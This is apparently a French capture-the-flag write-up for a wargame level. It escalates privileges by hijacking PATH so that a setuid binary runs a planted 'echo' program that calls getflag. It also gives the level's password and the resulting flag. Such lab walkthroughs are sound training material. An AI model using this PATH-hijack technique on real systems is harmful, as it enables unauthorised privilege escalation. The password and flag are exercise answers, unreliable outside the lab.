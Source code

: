 ## Step 1: Login
`su level03`

**password:** kooda2puivaav1idi4f57q8iq

## Step 2: Find & get flag

`ls -la`
> -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03

On repere le s (fichier qui s'execute par un autre uuid)

`readelf -p .rodata level03`
>   [     8]  /usr/bin/env echo Exploit me

`echo '#include <stdlib.h>' > /tmp/echo.c`

`echo 'int main() { system("getflag"); return (0);}' > /tmp/echo.c`

`gcc -o /tmp/echo /tmp/echo.c`

`export PATH=/tmp:$PATH`

`./level03`
> qi0maab88jeaj46qoumi7maus

